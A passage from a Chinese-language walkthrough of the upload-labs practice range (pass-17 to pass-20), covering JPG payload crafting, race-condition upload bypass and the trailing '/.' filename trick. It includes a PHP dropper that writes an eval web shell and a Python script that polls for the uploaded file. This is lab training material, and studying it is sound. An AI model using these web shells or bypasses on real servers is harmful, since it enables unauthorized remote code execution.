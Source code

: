 使用方法：先上传一张jpg图片到靶场，再下载渲染后的照片命名为`1.jpg`，运行

```shell
php jpg_payload.php 1.jpg
```

就可以得到payload的jpg图片了，但是需要多次尝试，因为有的jpg图片不能被修改

#### pass-18（条件竞争）

**条件竞争原理：**

条件竞争漏洞是一种服务器端的漏洞，由于服务器端在处理不同用户的请求时是并发进行的，因此，如果并发处理不当或相关操作逻辑顺序设计的不合理时，将会导致此类问题的发生。

上传文件源代码里没有校验上传的文件，文件直接上传，上传成功后才进行判断：如果文件格式符合要求，则重命名，如果文件格式不符合要求，将文件删除。
由于服务器并发处理(同时)多个请求，假如a用户上传了木马文件，由于代码执行需要时间，在此过程中b用户访问了a用户上传的文件，会有以下三种情况：
  1.访问时间点在上传成功之前，没有此文件。
  2.访问时间点在刚上传成功但还没有进行判断，该文件存在。
  3.访问时间点在判断之后，文件被删除，没有此文件。
**条件竞争绕过：**

修改木马如下：

```php
<?php fputs(fopen('a.php','w'),'<?php @eval($_POST["a"])?>');?>
```

这个木马会生成在后台生成一个一句话木马`a.php`，接下来我们要并发的去访问这个文件，需要用bp一直去发包，然后利用python脚本去监听是否访问到了该文件。bp发包如下：

先抓包，然后右键送到`Intruder`模块，然后`clear $`
![image-20240725221743994](https://typora-666.oss-cn-shanghai.aliyuncs.com/imaes/202407252217368.png)

选择**payload type**为`Null payloads`，同时将**payload setting**选为`continue indefinitely`
接着运行python脚本，xxx表示自己的靶场地址

```python
import requests
url = "http://xxx.xxx.xxx.xx/upload-labs/upload/shell.php"
while True:
    html = requests.get(url)
    if ( 'Warning'  not in  str(html.text)):
        print('ok')
        break
```

等到输出ok的时候就可以访问，用蚁剑连接的时候访问a.php就行了
**ps：**条件竞争可能不成功，需要多试几次

#### pass-19（条件竞争）

此关和**pass-18**类似，只不过本关需要上传的是图片码而非木马，故先制作图片码，**shell.php**使用**pass-18**的木马即可。其余和**pass-18**

相仿，不再赘述。

#### pass-20（/.绕过）

本关上传文件名可控，由于`move_uploaded_file()`有一个特性，会忽略掉文件末尾的 `/.`所以直接在保存文件名称的时候在最后加上`/.`
![image-20240727231610216](https://typora-666.oss-cn-shanghai.aliyuncs.com/imaes/202407272316362.png)
